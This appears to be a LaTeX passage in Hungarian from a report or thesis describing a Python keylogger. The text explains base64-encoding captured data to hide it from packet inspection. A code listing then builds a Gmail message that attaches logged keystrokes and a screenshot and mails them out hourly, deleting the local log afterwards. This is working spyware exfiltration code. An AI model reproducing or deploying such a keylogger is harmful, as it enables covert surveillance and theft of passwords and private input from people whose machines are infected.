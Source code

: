 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
A hálózaton közlekedő adatokat meg lehet nézni a wireshark szoftverrel, amelyet csomagok analizálására használnak. Észre lehet venni, hogy az adatok emberileg olvashatóak (ábra \ref{fig:packetcapture}), ezért a python base64 modulját alkalmazva kódoljuk a küldendő adatokat.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/wiresharkcapture}
\caption{A csomag wireshark-al elfogva}
\label{fig:packetcapture}
\end{figure}

Ha a kapcsolat felbomlott, akkor e-mail-en keresztül küldi tovább az adatokat óránként. Itt lépnek érvénybe a gmail cím, a jelszó, a gmail szolgáltatás, és a gmail port. Az adat felépítése ugyan úgy zajlik, mint a kapcsolat alatt. Ebben az esetben a lenyomott billentyűket összegyűjti egy állományba és azt csatolja később az e-mail-hez a képernyőképpel együtt. Egy e-mail felépítése python 3-ban:
\begin{lstlisting}{language=Python}
msg = MIMEMultipart()
msg['From'] = self.email_address
msg['To'] = self.email_address
msg['Subject'] = 'Keylogger result'
body = date_time
msg.attach(MIMEText(body, 'plain'))
file_attachment = MIMEBase('application', 'octet-stream')

with open(os.path.join(temp_path, filename), 'rb') as handler:
file_attachment.set_payload(handler.read())

encoders.encode_base64(file_attachment)
file_attachment.add_header('Content-Disposition', "attachment; filename=" + filename)
msg.attach(file_attachment)

if take_screenshot(temp_path):
	image_attachment = MIMEBase('application', 'octet-stream')

	with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
		image_attachment.set_payload(handler.read())

	encoders.encode_base64(image_attachment)
	image_attachment.add_header('Content-Disposition', "attachment; filename=screenshot.png")
	msg.attach(image_attachment)

content = msg.as_string()
\end{lstlisting}
Miután felépítettük az e-mail-t, kell csatlakozni a gmail szolgáltatóhoz és elküldeni azt. Ha az e-mail sikeresen el lett küldve, akkor az az állomány, amelybe a lenyomott billentyűket mentettük, törlésre kerül, hogy ne küldjük el ugyan azt mégegyszer. A $content$ változó tartalmazza a teljes e-mail-t a csatolmányokkal együtt.
\end{document}
